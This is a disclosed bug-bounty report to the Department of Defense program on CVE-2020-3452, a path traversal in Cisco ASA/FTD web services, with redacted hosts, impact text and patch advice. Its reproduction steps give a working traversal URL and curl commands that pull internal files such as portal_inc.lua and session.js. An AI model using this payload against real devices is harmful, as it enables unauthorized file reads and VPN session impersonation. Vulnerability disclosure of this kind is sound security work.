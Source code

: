 # Read-only path traversal (CVE-2020-3452)  at https://████████

## Report Details
- **Report ID**: 959679
- **URL**: https://hackerone.com/reports/959679
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-08-16T00:50:48.053Z
- **Disclosed**: 2021-04-02T18:47:46.939Z

## Reporter
- **Username**: raginalstorm
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Summary:**
I discovered a vulnerability Read-only path traversal (CVE-2020-3452)  at https://████████

**Description:**
A vulnerability in the web services interface of Cisco Adaptive Security Appliance (ASA) Software and Cisco Firepower Threat Defense (FTD) Software could allow an unauthenticated, remote attacker to conduct directory traversal attacks and read sensitive files on a targeted system. The vulnerability is due to a lack of proper input validation of URLs in HTTP requests processed by an affected device.

## Impact
An attacker could exploit this vulnerability by sending a crafted HTTP request containing directory traversal character sequences to an affected device. A successful exploit could allow the attacker to view arbitrary files within the web services file system on the targeted device. As an example, this could allow an attacker to impersonate another VPN user and establish a Clientless SSL VPN or AnyConnect VPN session to the device as that user. The web services file system is enabled when the affected device is configured with either WebVPN or AnyConnect features. This vulnerability cannot be used to obtain access to ASA or FTD system files or underlying operating system (OS) files.

## Step-by-step Reproduction Instructions
- In a web browser, navigate to  https://███████/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../

- Once URL is fully loaded, you will be prompted to download file `translation-table` that represents `portal_inc.lua` which you can then open and observe its content.
████████
█████

- Alternatively, you can execute the below linux bash terminal command to download that same file `portal_inc.lua`: 

```
curl -k "https://███████/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../" --output portal_inc.lua 
```

- You can download various internal files using curl flag `--output` to output the binary data to a file:
 
```
curl -k "https://████████/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/session.js&default-language&lang=../" --output session.js 
```

## Product, Version, and Configuration (If applicable)
WebApp endpoint

## Suggested Mitigation/Remediation Actions
- Cisco has released software updates that address this vulnerability. There are no workarounds that address this vulnerability.
- This advisory is available at the following link https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-asaftd-ro-path-KJuQhB86

## Impact

An attacker could exploit this vulnerability by sending a crafted HTTP request containing directory traversal character sequences to an affected device. A successful exploit could allow the attacker to view arbitrary files within the web services file system on the targeted device. As an example, this could allow an attacker to impersonate another VPN user and establish a Clientless SSL VPN or AnyConnect VPN session to the device as that user. The web services file system is enabled when the affected device is configured with either WebVPN or AnyConnect features. This vulnerability cannot be used to obtain access to ASA or FTD system files or underlying operating system (OS) files.

## Attachments
No attachments
